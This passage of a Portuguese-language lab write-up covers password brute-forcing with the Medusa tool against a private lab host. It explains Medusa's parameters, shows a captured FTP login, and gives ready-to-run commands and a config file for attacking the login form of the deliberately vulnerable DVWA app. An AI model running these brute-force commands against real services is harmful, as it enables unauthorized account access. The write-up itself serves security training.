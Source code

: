 ### Parâmetros do Medusa Explicados
- `-H`: Arquivo com lista de hosts
- `-U`: Arquivo com lista de usuários
- `-P`: Arquivo com lista de senhas
- `-M`: Módulo a ser usado (ftp, http, smb, etc.)
- `-t`: Número de threads
- `-v`: Nível de verbosidade (0-6)
- `-e ns`: Verifica senha nula e usuário como senha
- `-f`: Parar após encontrar primeira credencial válida

### Validação de Acesso
```bash
# Conexão FTP bem-sucedida
ftp 192.168.56.101
Connected to 192.168.56.101.
220 (vsFTPd 3.0.3)
Name: admin
331 Please specify the password.
Password: 
230 Login successful.
ftp> ls
drwxr-xr-x    2 0        0            4096 Apr 15  2020 pub
ftp> quit
```

---
<a id="automação-em-formulário-web-dvwa-com-medusa"></a>
## 🌐 Automação em Formulário Web (DVWA) com Medusa

### Comandos Utilizados

```bash
# 1. Identificação do formulário de login
curl http://192.168.56.101/dvwa/login.php

# 2. Brute force com Medusa no formulário HTTP
medusa -h 192.168.56.101 -U users_web.txt -P passwords_web.txt -M http -m DIR:/dvwa/login.php -m FORM:'username=^USER^&password=^PASS^&Login=Login' -m DENY-SIGNAL:'Login failed' -t 2 -v 6

# 3. Alternativa com método POST específico
medusa -h 192.168.56.101 -u admin -P passwords_web.txt -M http -m DIR:/dvwa/login.php -m METHOD:POST -m FORM:'username=admin&password=^PASS^&Login=Login' -m DENY-SIGNAL:'Login failed' -v 6
```

### Configuração Detalhada do Módulo HTTP
```bash
# Criando um arquivo de configuração para o Medusa
cat > dvwa_medusa.conf << EOF
# Configuração para ataque DVWA com Medusa
host=192.168.56.101
module=http
user=admin
password=passwords_web.txt
http-method=POST
http-path=/dvwa/login.php
http-form-data='username=^USER^&password=^PASS^&Login=Login'
http-failure-string='Login failed'
verbose=6
threads=2
EOF

# Executando com arquivo de configuração
medusa -C dvwa_medusa.conf
```